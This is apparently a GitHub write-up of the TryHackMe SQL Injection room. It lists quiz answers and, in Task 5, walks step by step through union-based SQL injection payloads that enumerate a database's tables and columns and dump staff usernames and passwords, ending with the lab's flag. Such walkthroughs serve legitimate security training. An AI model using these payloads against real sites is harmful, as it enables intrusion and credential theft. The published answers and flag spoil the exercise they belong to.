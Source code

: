 <h1 align='center'>:fire: TryHackMe SQL Injection room :fire: </h1>

![show image](images/1-show.png)<br/>
[SQL Injection Room](https://tryhackme.com/room/sqlinjectionlm)


## Task 1: Breif
### Q: What does SQL stand for?
![what does](images/2-what-does.png)<br/>
#### A: `Structured Query Language` :heavy_check_mark:<br/>

## Task 2: What is database?
### Q: What is the acronym for the software that controls a database?
![dbms](images/3.png)<br/>
#### A: `DBMS` :heavy_check_mark:<br/>

### Q: What is the name of the grid-like structure which holds the data?
![table](images/4-table.png)<br/>
#### A: `table` :heavy_check_mark:<br/>

## Task 3: What is SQL?
### Q: What SQL statement is used to retrieve data?
![select](images/5-select.png)<br/>
#### A: `SELECT` :heavy_check_mark:<br/>

### Q: What SQL clause can be used to retrieve data from multiple tables?
![union](images/6-union.png)<br/>
#### A: `UNION` :heavy_check_mark:<br/>

### Q: What SQL statement is used to add data?
![insert](images/7-insert.png)<br/>
#### A: `INSERT` :heavy_check_mark:<br/>

## Task 4: What is SQL Injection?
### Q: What character signifies the end of an SQL query?
![semicolon](images/8-semicolon.png)<br/>
#### A: `;` :heavy_check_mark:<br/>

## Task 5: In-Band SQLi
### Q: What is the flag after completing level 1?
    '
![apostrophe](images/9-apostrophe.png)<br/>
Try typing an apostrophe `'` after the `id=1` and press enter. And you'll see this returns an SQL error informing you of an error in your syntax.<br/>

    1 UNION SELECT 1,2,3
![error solved](images/10-error-solved.png)<br/>
Success,  the error message has gone, and the article is being displayed, but now  we want to display our data instead of the article.<br/>

Now change value `1` to `0` before UNION

    0 UNION SELECT 1,2,3
![change value](images/11-change-value.png)<br/>
You'll now see the article is just made up of the result from the UNION select returning the column values `1, 2, and 3`<br/>

    0 UNION SELECT 1,2,database()
![datanase](images/12-database.png)<br/>
It now shows the name of the database, which is `sqli_one`.<br/>

    0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
![tables name](images/13-get-tables-name.png)<br/>
The information we want to retrieve has changed from table_name to `column_name`, the table we are querying in the information_schema database has changed from tables to `columns`, and we're searching for any rows where the `table_name` column has a value of `staff_users`.<br/>

    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
![columns](images/14-all-columns.png)<br/>

    0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
![password](images/15-password.png)<br/>
#### A: `THM{SQL_INJECTION_3840}` :heavy_check_mark:<br/>